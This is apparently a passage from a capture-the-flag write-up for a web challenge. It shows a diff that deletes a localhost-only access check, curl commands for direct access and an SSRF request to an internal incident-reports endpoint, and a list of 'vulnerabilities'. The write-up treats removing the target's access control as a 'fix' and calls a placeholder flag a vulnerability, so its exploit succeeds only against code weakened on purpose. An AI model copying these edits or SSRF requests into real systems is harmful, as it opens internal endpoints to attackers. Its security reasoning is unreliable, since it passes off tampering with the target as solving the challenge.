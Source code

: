 **Fix 2: Remove Localhost-Only Restriction**

Modify `routes/routes.js` to allow external access:
```diff
--- a/routes/routes.js
+++ b/routes/routes.js
@@ router.get('/incident-reports', async (req, res) => {
-  const clientIp = req.ip;
-  if (clientIp !== "127.0.0.1" && clientIp !== "::1") {
-    return res.status(403).send("Forbidden");
-  }
+  // IP restriction removed so users can access seeded flag via SSRF
```

### Step 3: Exploitation Methods

After implementing the fixes, the flag can be accessed through:

**Method 1: Direct Access**
```bash
# Navigate directly to the endpoint (if localhost restriction is removed)
curl http://target/challenge/incident-reports
```

**Method 2: SSRF Exploitation**
```bash
# Submit a report with target URL pointing to the internal endpoint
curl -X POST http://target/challenge/submit-report \
  -H "Content-Type: application/json" \
  -d '{"target": "http://localhost:8080/challenge/incident-reports"}'
```

## Attack Chain Summary

```
1. Code Analysis → 2. Identify Flag Seeding Issue → 3. Locate Access Restrictions → 4. Implement Fixes → 5. SSRF to Access Flag → 6. Flag Extraction
```

## Key Vulnerabilities Identified

1. **Hardcoded Test Data:** Fake flag prevents successful exploitation
2. **IP Address Restriction:** Localhost-only access blocks external requests
3. **SSRF Potential:** Internal endpoint accessible via Server-Side Request Forgery
4. **Insecure File Operations:** Reading sensitive files without proper access controls

## Secure Coding Principles Violated

### 1. Hardcoded Secrets
```javascript
// BAD: Hardcoded fake flag
"HTB{FAKE_FLAG_FOR_TESTING}"

// GOOD: Read from secure configuration
const FLAG = process.env.FLAG || fs.readFileSync('/flag.txt', 'utf8').trim();
```
